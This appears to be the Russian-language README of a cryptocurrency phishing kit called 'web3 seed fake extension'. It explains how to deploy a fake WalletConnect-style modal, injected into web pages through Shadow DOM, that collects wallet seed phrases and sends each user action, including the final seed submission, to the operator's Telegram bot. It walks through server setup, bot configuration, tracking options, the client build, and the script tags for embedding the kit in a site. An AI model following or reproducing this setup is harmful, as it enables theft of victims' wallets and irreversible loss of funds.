 # web3 seed fake extension

## Описание

Это модальное окно, которое внедряется через ShadowDOM, которое похоже на [Wallet Connect](https://walletconnect.network/). Можно настроить полный список кошельков для выбора, либо добавить свои. Также после каждого действия пользователя телеграм бот "отстукивает" в личные сообщения (можно настроить этапы).

Здесь можно посмотреть видео на YouTube.
[![Превью](https://www.privacy.com.sg/wp-content/uploads/2022/01/image-50.jpeg)](https://www.youtube.com/watch?v=DEAVbOs7d_4)

## Сервер

Название папки `server`

### Установка Node.JS на ВМ

Перходим в главную директорию

```
cd
cd ..
```

Начинаем установку Node.JS

````ubuntu
sudo apt install build-essential checkinstall
sudo apt install libssl-dev```
wget -qO- https://raw.githubusercontent.com/creationix/nvm/v0.33.8/install.sh | bash
source ~/.profile
source ~/.bashrc
nvm install 20.17.0
````

После установки, выполняем команду `node -v`
В консоли должно быть следующее: `v20.17.0`

### Установка сервера

Копируем, переходим в папку с сервером и устанавливаем зависимости.

```ubuntu
cd /your-folder
npm install
```

### Настройки бота

В файле `.env` меняем на токен собственного телеграм бота и на наш чат id.

ID чата можно узнать здесь `https://api.telegram.org/bot{Token}/getUpdates`
\*Вместо `{Token}` подставить токен бота. В `message.chat.id` будет лежать id чата (перед нужно отправить любое сообщение боту).

### Настройки кошельков

Настройка кошельков осуществляется в файле `wallets_config.json`

```json5
{
"wallets":
    [
        {
          "name": "metamask", //Имя кошелька, позже оно выводится в маршруте, который принимает данные
          "title": "Metamask", //Отображаемое имя кошелька (будет отображаться в качестве названия кошелька)
          "image": "metamask.svg", //Картинка, хранится в папке public (Указываем просто название файла)
          "primarycolor": "#ed9f45", //Основновной цвет темы
          "secondarycolor": "#ed9f4540", //Дополнительный (полупрозрачный)
          "textcolor": "#8c5e29" //Цвет текста на кнопке
        },
     ...
    ]
}
```

Какие цвета за что отвечают
[![instruction.png](https://i.postimg.cc/CKKzhNpf/instruction.png)](https://postimg.cc/0zL8Z7Q8)

Кошельки принимаются клиентом одним массивом, выводятся в порядке очереди.

### Настроки отслеживания действий

Данная настройка осуществляется в файле `request_config.json`

```json5
{
  enter: true, //отслеживание открытия модального окна
  choosewallet: true, //отслеживание выбора кошелька
  chooseseed: true, //отслеживание выбора длины сид фразы
  seed: true, //отключение финального запроса (Если по какой-то причине требуется отключить, но РЕКОМЕНДАЦИЯ! НЕ ТРОГАТЬ ДАННУЮ НАСТРОЙКУ!)
}
```

### (Пропускаем, необязательный пункт) Настройка CORS

В `src/index.js` есть закомментированный код перед регистрацией `fastifyCors`

```
(origin, cb) => {
        if (corsConfig.domains.indexOf(origin) !== -1 || !origin) {
          cb(null, true);
        } else {
          cb(new Error('Not allowed by CORS'));
        }
      },
```

Его нужно вставить вместо `'*',` в `origin: '*',`

Настройка CORS доменов осуществляется в файле `cors.config.js`

```javascript
{
    domains: [
    'https://mydomain.com', 'https://mydomain.ru', 'https://mydomain.io', ...
    ]
}
```

Просто добавляем нужный домен в массив.

### Запуск сервера

Запускаем сервер (По умолчанию на порту `443`).

```bash
npm start
```

## Клиент

Название папки `vue-project`

### Настройка доменов для запроса

В файле `src/views/Main.vue` на `19` и `30` строчках меняем домен.
В файле `src/views/Connect.vue` на `28` строчке меняем домен.

### Сборка

Перед сборкой убедитесь, что `vite.config.js` совпадает с настройками ниже.

```javascript
import { defineConfig } from "vite";
import vue from "@vitejs/plugin-vue";

export default defineConfig({
  plugins: [vue()],
  define: {
    "process.env": {}, // Можно убрать, но не стоит
  },
  build: {
    lib: {
      entry: "./src/main.js",
      name: "WalletModal",
      fileName: (format) => `wallet-modal.${format}.js`,
    },
    rollupOptions: {
      external: ["vue"],
      output: {
        globals: {
          vue: "Vue",
        },
      },
    },
  },
  resolve: {
    alias: {
      "@": "/src",
    },
  },
});
```

Далее собираем проект (Лучше всего делать на локальной машине. Требуется скачать и установить Node.js, если его нет, тут [Ссылка](https://nodejs.org/en))

Далее через Командную строку

```bash
cd ./your-folder
npm install
npm run build
```

В папке `./dist` будет несколько файлов, переносим все на ВМ.

## Настройка `wallet-dom-init.js` и подключение модуля к странице

### Настройка `wallet-dom-init.js`

Открываем файл, на строчке `24` в `@import url('http://localhost:3000/style.css');` вместо `http://localhost:3000` прописываем домен, где размещены файлы из сборки.
Сохраняем и перекидываем этот файл туда же.

### Подключение модуля

Делаем напрямую в `index.html`

! `https://domain.com/` меняем на актуальный домен, где расположен клиент.

Подключается через `Shadow DOM`, чтобы избежать конфликт стилей.

1. Подключаем Vue глобально
2. Подключение клиента
3. Устанавливаем клиент через кастомный элемент `<wallet-modal>` (лучше разместить этот элемент сразу после `<body>`)

```html
<head>
  <script src="https://unpkg.com/vue@3.3.0/dist/vue.global.js"></script>
  <script src="https://domain.com/wallet-modal.umd.js"></script>
  <script async src="https://domain.com/wallet-dom-init.js"></script>
</head>

<body>
  <wallet-modal></wallet-modal>
</body>
```
